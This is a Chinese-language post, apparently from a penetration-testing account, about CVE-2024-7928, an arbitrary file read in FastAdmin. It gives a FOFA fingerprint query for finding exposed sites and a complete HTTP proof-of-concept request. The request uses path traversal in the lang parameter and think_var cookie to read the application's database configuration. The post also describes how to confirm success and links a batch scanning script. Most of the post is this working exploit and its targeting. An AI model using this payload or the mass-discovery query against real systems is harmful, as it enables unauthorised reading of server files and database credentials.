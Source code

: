 #  CVE-2024-7928 FastAdmin 任意文件读取 全网20w+潜在风险资产 含批量验证脚本   
合规渗透  合规渗透   2024-08-21 21:38  
  
```
fofa icon_hash="-1036943727"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj4FibYiaukpYiaS1YXGxsKbk1SasF1hb3aCicyKuzG7sv3HiaEIok3tIDp9k1S1eyDvDLzzMWJmrxIwlVA/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现：  
```
poc
GET /index/ajax/lang?lang=..//..//application/database HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: keep-alive
Cookie: think_var=..%2F%2F..%2F%2Fapplication%2Fdatabase
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```  
  
请求该url，存在漏洞会包含字符  
jsonpReturn xxxxx  
 如下图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vZZfNxKcwj4FibYiaukpYiaS1YXGxsKbk1S6oeVOT3qxic4Ise5pBY7tdm4Ww4K4rsvdaAoQsqqYwsfgSrEXAVZ3pg/640?wx_fmt=png&from=appmsg "")  
  
批量验证脚本：  
```
https://github.com/bigb0x/CVE-2024-7928/tree/main
```  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/vZZfNxKcwj4FibYiaukpYiaS1YXGxsKbk1SIPwOhhAfibvftLcWkShiaA488C6TLoQV1JCpial43ficcWWwCI94xppAfg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
